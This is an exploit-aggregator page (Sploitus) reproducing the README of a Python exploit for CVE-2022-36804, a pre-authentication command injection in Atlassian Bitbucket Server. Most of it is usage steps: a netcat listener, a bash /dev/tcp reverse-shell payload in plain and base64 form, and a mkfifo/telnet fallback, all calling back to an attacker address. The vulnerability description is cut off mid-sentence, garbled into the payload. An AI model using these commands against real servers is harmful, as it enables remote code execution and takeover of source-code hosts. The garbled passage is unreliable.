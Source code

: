 ```yaml
---
title: Exploit for Command Injection in Atlassian Bitbucket exploit
url: https://sploitus.com/exploit?id=4B259F70-F148-544C-9B57-BD83FF898A5F&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-01-24
fetch_date: 2025-10-04T04:37:42.177069
---
```


# Exploit for Command Injection in Atlassian Bitbucket exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Argument Injection in Atlassian Bitbucket CVE-2022-36804

2023-01-23 | CVSS 8.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=4B259F70-F148-544C-9B57-BD83FF898A5F
# CVE-2022-36804: Pre-Auth RCE in Atlassian Bitbucket Server
A critical command injection vulnerability was found in multiple API endpoints of the Atlassian Bit bucket Server and Data center. This vulnerability affects all versions of Bitbucket Server and Data Center released before versions `& /dev/tcp/172.17.0.3/4444 0>&1"
```
Start netcat listner with:
```
nc -lvp 4444
```

Convert `/bin/bash -i >& /dev/tcp/172.17.0.3/4444 0>&1` to base64 in case of payload execution error.
```
python3 cve-2022-36804.py -u http://172.17.0.2:7990 -c "echo 'L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE3Mi4xNy4wLjMvNDQ0NCAwPiYx' | base64 -d | bash |"
```

If you are still facing any error, execute below command:
> TF=$(mktemp -u);mkfifo $TF && telnet 172.17.0.3 4444 0$TF
```
python3 cve-2022-36804.py -u http://172.17.0.2:7990 -c "TF=$(mktemp -u);mkfifo $TF && telnet 172.17.0.3 4444 0$TF"
```

It is recommended to install vulnerable version of Bitbucket server in Windows/Linux machine for practice. It will be easy to achieve reverse shell compared to docker images.

More information can be found [here](https://walnutsecurity.com/cve-2022-36804-rce-in-bitbucket-server/)

# References
* https://confluence.atlassian.com/bitbucketserver/bitbucket-server-and-data-center-advisory-2022-08-24-1155489835.html
* https://vulners.com/cve/CVE-2022-36804
* https://walnutsecurity.com/cve-2022-36804-rce-in-bitbucket-server/
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)